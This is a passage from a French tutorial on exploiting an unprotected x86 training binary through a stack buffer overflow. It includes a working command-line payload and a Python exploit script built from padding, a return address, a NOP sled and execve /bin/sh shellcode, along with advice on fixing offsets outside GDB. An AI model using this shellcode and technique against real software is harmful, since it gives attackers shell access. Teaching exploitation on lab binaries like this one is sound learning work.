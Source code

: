 Une fois l'exploitation de notre binaire terminée dans GDB il reste peu d'étapes avant d'en avoir fini !

Tout d'abord, on va tenter de lancer directement l'exploit. Deux cas peuvent se produire, tout marche parfaitement, dans ce cas sautez ces explications, sinon continuez :

```
./exploitme $(python2 -c "from struct import pack; print 'a'*37+pack('<I',0xffffb264)+'\x90'*9000+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
Erreur de segmentation (core dumped)
```

Il est totalement possible que l'exploit ne fonctionne pas. Et ce n'est pas grave ! Ceci est le plus souvent dû au fait que GDB dispose de variables d'environnements supplémentaires, ces dernières étant placés dans la stack cela entraîne un décalage. Afin de palier à ce problème, la solution la plus simple est de choisir un nopsled plus important par exemple 11 000 au lieu de 9 000 :

![Exploitation hors GDB](/medias/articles/exploitation-binaire-x86-sans-protections/Sélection_021.png)

### Ecriture de l'exploit

Obtenir un shell de cette manière n'est pas une fin en soit, mais le plus gros est fait. A cet instant précis, nous allons nous concentrer sur l'écriture d'un exploit propre. Pour cela nous allons écrire un script python :

"Mais ca sert a rien d'écrire un exploit pour ce genre de binaire". Si à s’entraîner !

Rien de très complexe pour ce premier exemple, nous allons juste reprendre notre ligne de commande et la transformer en script propre :

```
from struct import pack
from os import system

args = 'a'*37
args += pack('<I',0xffffb4bd)
args +='\x90'*9000
args += '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

system("./exploitme "+args)
```

Ce qui nous donne une fois exécuté :

![Exploitation finale](/medias/articles/exploitation-binaire-x86-sans-protections/Sélection_008-1-1024x95.png)

## Conclusion

And voila ! Nous avons exploité avec succès notre premier binaire. Certes celui ci est sans aucune protection, mais cela permet une entrée en matière simple. N'hésitez pas à reprendre ce tutoriel tant que vous n'avez pas compris exactement ce qu'il se passait dans votre machine.
